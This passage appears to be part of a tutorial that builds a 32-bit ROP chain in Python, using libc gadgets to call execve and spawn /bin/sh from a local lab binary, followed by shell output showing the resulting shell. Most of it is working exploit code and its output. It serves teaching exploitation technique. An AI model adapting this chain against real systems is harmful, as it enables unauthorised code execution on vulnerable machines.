 ```python

# Second argument in ecx register which is null
p += pack('<I', base + 0x001926d5) # pop ecx ; ret
p += pack('<I', base + 0x001d8048) # @ .data + 8

# Third argument in edx register which is null
p += pack('<I', base + 0x00001aae) # pop edx ; ret
p += pack('<I', base + 0x001d8048) # @ .data + 8

# Now, we have to place 11 in eax which is number of execve() system call
p += pack('<I', base + 0x0002e565) # xor eax, eax ; ret
p += pack('<I', base + 0x00024bf8) # inc eax ; ret
p += pack('<I', base + 0x00024bf8) # inc eax ; ret
p += pack('<I', base + 0x00024bf8) # inc eax ; ret
p += pack('<I', base + 0x00024bf8) # inc eax ; ret
p += pack('<I', base + 0x00024bf8) # inc eax ; ret
p += pack('<I', base + 0x00024bf8) # inc eax ; ret
p += pack('<I', base + 0x00024bf8) # inc eax ; ret
p += pack('<I', base + 0x00024bf8) # inc eax ; ret
p += pack('<I', base + 0x00024bf8) # inc eax ; ret
p += pack('<I', base + 0x00024bf8) # inc eax ; ret
p += pack('<I', base + 0x00024bf8) # inc eax ; ret

# Syscall exception
p += pack('<I', base + 0x00002d37) # int 0x80

print p
```
To this code we have added the offset to EIP offset which is 18 bytes and also the base address of `libc` library. Here the `pack` library is used to automatically reverse the address as per little endian format requirements.

```
$ ./rop $(python rop-exploit.py)
Buf:AAAAAAAAAAAAAAAAAA����@P����
$ whoami
secure
$ id
uid=1000(secure) gid=1000(secure) groups=1000(secure)
```
Voila!! we have successfully executed the `/bin/sh` using ROP chain.
